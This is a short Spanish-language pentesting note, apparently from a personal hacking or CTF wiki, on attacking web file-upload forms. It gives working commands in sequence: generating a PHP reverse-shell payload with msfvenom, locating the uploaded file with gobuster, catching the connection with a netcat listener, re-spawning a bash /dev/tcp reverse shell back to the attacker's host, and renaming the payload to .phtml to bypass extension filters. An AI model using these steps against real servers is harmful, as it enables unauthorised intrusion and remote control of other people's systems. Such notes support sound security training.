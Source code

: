 
Cuandouna web nos permite subir archivos hay que explotarlo bien, porque seguramente se pueda hacer una intrusión por ahí.
La forma de atacar será subir un archivo con un codigo malicioso que se puede crear con msfvenom



1 con Msfvenom generamos un payuload:
```sh fold:"Generar payload con msfvenom"
msfvenom -p php/reverse_php Lhost={IPlocal} LPORT={Local port} -f raw > pwned.php
```



Este archivo lo subimos con el formulario de la web encontrado

Ahora tenemos que saber donde se ha subido para intentar ejecutarlo y ejecutar el código malicioso.

por tanto hacemos  Fuzzing con gobuster


```sh fold:"Buscar el fichero subido pwned.php con gobuster"
gobuster dir -u http://{ip} -w /usr/share/wordlist/dirbuster/directory-listls-lowercase-2.3-medium.txt
```


Si encontramos la carpeta /uploads o carpeta similares entramos
Una vez localizado nuestro fichero pwned.php solo nos falta

```sh fold:"Poner Netcat a la escucha en el puerto seleccionado en el fichero creado con msfvenom"
nc -nlvp {Local port}
```

Después hacemos click sobre nuestro fichero para obtener la conexión en netcat


**Nota:** El payload con msfvenom funciona mal y al cabo del rato perdemos la conexion, por tatno lo primero que hacemos cuando hemos establacido conexion será abrir un nuevo terminal
con netcat nos ponemos a la escucha en otro puerto diferente al que hemos elegido previamente
y desde la conexion anterior nos enbviamos la reverse_shell:


```sh fold:"Enviar una conexion a nuestra maquina por el nuevo puerto"
bash -c "sh -i >&  /dev/tcp/{ip maquina local}/{nuevopuerto} 0>&1"
```


# Bypass Restriccion de FileUpload (Subir ficheros sin permiso de ficheros para ese formato)

cuando intentas subir un archivo en .php por ejemplo y no está permitido tenemos que Bypassear la restricción.

Intentamnos subir un fichero con extension .phtml
seria el mismo que en php pero cambiando directamente con un 

```sh fold:"Cambiar la extension de un fichero"
mv pwned.php pwned.phtml
```









